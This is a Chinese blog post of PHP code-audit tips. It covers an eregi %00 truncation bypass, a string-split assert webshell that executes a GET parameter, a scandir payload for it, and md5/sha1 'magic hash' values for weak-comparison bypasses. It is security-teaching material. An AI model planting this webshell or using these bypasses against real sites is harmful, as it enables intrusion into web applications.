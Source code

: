 ## PHP代码审计中的一些Tips

来源：[http://zeroyu.xyz/2018/10/13/php-audit-tips/](http://zeroyu.xyz/2018/10/13/php-audit-tips/)

时间 2018-10-13 20:00:14


此函数可以被%00截断

比如下面这个例子，可以使用$b=”%001111”

```php
//%00好像算一个字节
if(strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
    require("f4l2a3g.txt");
}


```


#### 2.assert  

PHP中的assert可以用来执行PHP函数，进而进行getshell等操作，比如我们利用如下代码进行目录扫描

```php
<?php 
$poc = "a#s#s#e#r#t";
$poc_1 = explode("#", $poc);$poc_2 = $poc_1[0] . $poc_1[1] . $poc_1[2] . $poc_1[3] . $poc_1[4] . $poc_1[5];
$poc_2($_GET['s'])
?>


```

payload`s=print_r(scandir('./'));`#### 3.md5&sha1  

PHP中的md5和sha1函数存在两个问题，第一是他们处理数组都返回null；第二在弱类型条件下他们会认为如下的返回值相同

```php
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a
 sha1(str)
sha1('aaroZmOk')  
sha1('aaK1STfY')
sha1('aaO8zKZF')
sha1('aa3OFF9m')


```


[0]: https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/
[1]: http://bobao.360.cn/learning/detail/3082.html
[2]: https://stackoverflow.com/questions/3812851/there-is-a-way-to-use-class-exists-and-autoload-without-crash-the-script
[3]: https://www.anquanke.com/post/id/86015
[4]: https://paper.seebug.org/164/#
[5]: http://www.phpbug.cn/archives/32.html
[6]: http://php.net/manual/zh/function.preg-replace.php
[7]: https://xz.aliyun.com/t/2557
[8]: http://php.net/manual/zh/regexp.reference.back-references.php
[9]: https://www.cdxy.me/?p=756
[10]: https://blog.spoock.com/2018/05/05/request-vuln-analysis/
[11]: https://blog.csdn.net/u011721501/article/details/51824576